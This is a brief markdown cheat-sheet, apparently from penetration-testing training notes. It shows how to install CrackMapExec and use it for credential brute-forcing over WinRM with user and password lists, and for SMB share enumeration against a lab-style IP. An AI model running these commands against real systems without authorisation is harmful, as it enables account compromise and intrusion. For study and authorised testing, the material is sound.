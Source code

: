 ```shell
sudo apt-get -y install crackmapexec
```

```shell
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```shell
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```
###### SMB
```shell
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```